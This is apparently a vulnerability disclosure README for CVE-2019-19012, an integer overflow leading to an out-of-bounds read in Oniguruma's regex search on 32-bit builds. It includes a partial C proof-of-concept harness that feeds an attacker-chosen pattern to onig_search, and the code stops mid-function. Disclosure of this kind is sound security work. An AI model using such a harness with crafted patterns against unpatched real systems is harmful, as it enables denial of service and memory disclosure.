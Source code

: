 # CVE-2019-19012

An integer overflow in the search_in_range function in regexec.c in Oniguruma 6.x before 6.9.4_rc2 leads to an out-of-bounds read, in which the offset of this read is under the control of an attacker. (This only affects the 32-bit compiled version). Remote attackers can cause a denial-of-service or information disclosure, or possibly have unspecified other impact, via a crafted regular expression.

**Researcher: ManhND of The Tarantula Team, VinCSS (a member of Vingroup)**

# What is Oniguruma
Oniguruma by K. Kosako is a BSD licensed regular expression library that supports a variety of character encodings. The Ruby programming language, in version 1.9, as well as PHP's multi-byte string module (since PHP5), use Oniguruma as their regular expression engine. It is also used in products such as Atom, GyazMail Take Command Console, Tera Term, TextMate, Sublime Text and SubEthaEdit.

# Proof of Concept
Following is a PoC in C. It receives the first argument as the pattern and 2th argument as the string to be matched.

```C++
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include "oniguruma.h"

static int
search(regex_t* reg, unsigned char* str, unsigned char* end)
{
  int r;
  unsigned char *start, *range;
  OnigRegion *region;

  region = onig_region_new();

  start = str;
  range = end;
  r = onig_search(reg, str, end, start, range, region, ONIG_OPTION_NONE);
  if (r >= 0 ) {
    int i;

    fprintf(stdout, "match at %d  (%s)\n", r,
            ONIGENC_NAME(onig_get_encoding(reg)));
    for (i = 0; i < region->num_regs; i++) {
      fprintf(stdout, "%d: (%d-%d)\n", i, region->beg[i], region->end[i]);
    }
  }
  else if (r == ONIG_MISMATCH) {
    fprintf(stdout, "search fail (%s)\n",
            ONIGENC_NAME(onig_get_encoding(reg)));
  }
  else { /* error */
    char s[ONIG_MAX_ERROR_MESSAGE_LEN];
    onig_error_code_to_str((UChar* )s, r);
    fprintf(stdout, "ERROR: %s\n", s);
    fprintf(stdout, "  (%s)\n", ONIGENC_NAME(onig_get_encoding(reg)));
    
    onig_region_free(region, 1 /* 1:free self, 0:free contents only */);
    return -1;
  }

```